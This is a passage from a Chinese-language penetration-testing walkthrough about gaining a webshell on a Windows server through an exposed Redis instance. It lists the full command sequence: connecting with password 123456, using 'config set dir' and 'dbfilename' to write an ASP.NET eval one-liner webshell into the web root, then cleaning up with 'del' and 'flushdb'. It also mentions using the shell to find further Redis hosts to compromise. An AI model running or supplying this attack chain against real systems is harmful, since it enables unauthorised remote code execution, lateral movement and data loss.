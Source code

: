 

[![image.png](https://image.3001.net/images/20180504/15254230954638.png!small)](https://image.3001.net/images/20180504/15254230954638.png)



<center>图6获取webshell</center>



7.恢复原始设置

（1）恢复dir

```
config set dir dirname
```



（2）恢复dbfilename

```
config set dbfilename dbfilename
```



（3）删除webshell

```
del webshell
```



（4）刷新数据库

```
flushdb
```



8.完整命令总结

```
telnet 1**.**.**.31 3357
auth 123456
config get dir
config get dbfilename
config set dir E:/www/
config set dbfilename redis2.aspx
set a "<%@ Page Language=\"Jscript\"%><%eval(Request.Item[\"c\"],\"unsafe\");%>"
save
get a
```



9.查看redis配置conf文件

 通过webshell，在其对应目录中发现还存在其它地址的redis，通过相同方法可以再次进行渗透，如图7所示，可以看到路径、端口、密码等信息。



[![image.png](https://image.3001.net/images/20180504/15254231059009.png!small)](https://image.3001.net/images/20180504/15254231059009.png)
